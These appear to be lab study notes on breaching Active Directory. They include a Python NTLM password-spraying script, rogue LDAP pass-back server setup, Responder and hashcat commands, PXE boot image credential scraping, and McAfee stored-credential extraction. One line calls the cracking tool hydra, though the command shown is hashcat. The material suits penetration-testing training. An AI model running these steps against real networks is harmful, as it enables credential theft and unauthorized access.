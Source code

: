 - ip 10.50.94.18

## OSINT
-  [Stack Overflow](https://stackoverflow.com/) questions with disclosed sensitive information
-  [Github](https://github.com/) files with credentials hardcoded.
- Disclosed info in previous breach: [HaveIBeenPwned](https://haveibeenpwned.com/) and [DeHashed](https://www.dehashed.com/)
- Phishing

## NTLM authenticated services
- Brute force with username/passwords
- Password spraying with credentials collected in OSINT
- Example script

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")

```

## LDAP Bind Credentials
- If access is gained on Servers with LDAP services, then config files can be searched for their credentials
- `LDAP Pass-Back attack`: Update LDAP service config to point to our machine intercept any authentication calls
	- Listen on default port for LDAP - 389, won't work because it requires LDAP mesasge exchange
	- Point the LDAP service to use our IP as auth server, and connect once rogue server is ready.
	- Run a Rogue LDAP server `OpenLDAP` - 
		- Ensure that  LDAP server only supports PLAIN and LOGIN authentication methods

```
# Install ldap package
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd

# Initial configuration
# Follow the steps with appropriate settings
sudo dpkg-reconfigure -p low slapd

# Ensure insecure auth, create new 'ldif' file with below config
# olcSaslSecProps: Specifies the SASL security properties
# noanonymous: Disables mechanisms that support anonymous login
# minssf: Specifies the minimum acceptable security strength with 0, meaning no protection.
echo '#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred' > olcSaslSecProps.ldif


# use the ldif file to patch LDAP server:
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

# verify rogue LDAP server's configuration
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms

# Start listening to network traffic
sudo tcpdump -SX -i breachad tcp port 389
```


## Authentication relays

- The Server Message Block (SMB) protocol allows clients (like workstations) to communicate with a server (like a file share).
- Two ways to exploit NTLM with SMB
	1. intercept NTLM Challenges, then use offline cracking techniques to recover the password associated
		- use [Responder](https://github.com/lgandx/Responder) to attempt to intercept the NetNTLM challenge
		- Responder will attempt to poison any  Link-Local Multicast Name Resolution (LLMNR),  NetBIOS Name Service (NBT-NS), and Web Proxy Auto-Discovery (WPAD) requests that are detected.
		- `sudo responder -I breachad` - Starts the responder service in the LAN network
		- If any auth is intercepted, extract the password hash and crack them using hydra: `hashcat -m 5600 <hash_list_file> <password_list_file> --force`
	- use rogue device to stage a MITM attack -> relay the SMB authentication between the client and server -> receive an active authenticated session and access to the target server.

## Microsoft Deployment Toolkit
- Microsoft's System Center Configuration Manager (SCCM) manages all updates for all Microsoft applications, services, and operating systems
- Microsoft Deployment Toolkit (MDT) is a Microsoft service that assists with automating the deployment of Microsoft Operating Systems (OS)
- One of the ways to maliciously configure MDT is Preboot Execution Environment (PXE) boot.
- We can exploit the PXE boot image for two different purposes:
	- Inject a privilege escalation vector, such as a Local Administrator account, to gain Administrative access to the OS once the PXE boot has been completed.
	- Perform password scraping attacks to recover AD credentials used during the install.
		- Extract MDT IP address
		- Extract BCD files list
		- use TFTP and download BCD file to read the configuration of the MDT server. TFTP is a bit trickier than FTP since we can't list files. Instead, we send a file request, and the server will connect back to us via UDP to transfer the file. Hence, we need to be accurate when specifying files and file paths. The BCD files are always located in the /Tmp/ directory on the MDT server.
		- `tftp -i <MDT IP> GET "\Tmp\bcdfilename.bcd" conf.bcd`
		- use [powerpxe](https://github.com/wavestone-cdt/powerpxe) to read the conf file
			- `Import-Module .\PowerPXE.ps1`
			- `Get-WimFile -bcdFile .\conf.bcd` - it will print the WIM file location which is bootable image in Windows Imaging Format.
		- Download the boot image using the above location
			- `tftp -i <MDT IP> GET "<PXE Boot Image Location>" pxeboot.wim`
		- Once download, the image can be modified to perform various attack. Read [Exploiting PXE images](https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/)
		- Extract Credentials from the image: `Get-FindCredentials -WimFile pxeboot.wim`

## Configuration Files
- Web application config files  
- Service configuration files
- Registry keys
- Centrally deployed applications
- Enumerate config files using [Seabelt](https://github.com/GhostPack/Seatbelt)
- Example `McAfee`: `C:\ProgramData\McAfee\Agent\DB\ma.db` stores the credentials
	- Credentials are stored in `AGENT_REPOSITORIES` table
	- Use [McAfee pwd decryption](https://github.com/funoverip/mcafee-sitelist-pwd-decryption) to decrypt the password hash
	